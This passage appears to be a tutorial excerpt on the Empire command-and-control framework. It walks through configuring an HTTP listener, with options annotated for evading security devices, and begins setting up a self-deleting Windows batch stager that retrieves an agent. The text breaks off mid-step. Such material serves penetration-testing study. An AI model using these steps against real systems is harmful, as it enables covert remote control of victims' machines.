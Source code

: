    ```bash
   uselistener http
   # HTTP is the simplest listener, which tunnels the traffic through HTTP requests.
   
   # You can enter the uselistener command and double-tab to see more choices
   ```

3. Show more info on options for this listener module

   ```bash
   info
   ```

4. Setup options for the listener

   ```bash
   # Required
   set Host 192.168.119.216
   set Port 8000
   
   # Optional
   DefaultDelay	# Amount of time to wait before the target calls back to the listener, designed to make it seem more like HTTP traffic
   DefaultJitter	# Random offset to DefaultDelay to make it seem less programatic to security devices
   KillDate		# Self terminates the listeners on all compromised hosts at a set date.
   ```

5. Start the listener

   ```bash
   execute
   ```

### Setting up a Stager

The stager is responsible for retrieving the agent and it deletes itself once it finishes execution.

1. After setting up a listener, return to the previous context menu

   ```bash
   back
   ```

2. Choose a stager to use:

   ```bash
   usestager windows/launcher_bat
   
   # You can enter the usestager command and double-tab to see more choices
   ```

3. Show more info on options for this listener module

   ```bash
   info
   ```

4. Assign the listener that was just created to this stager
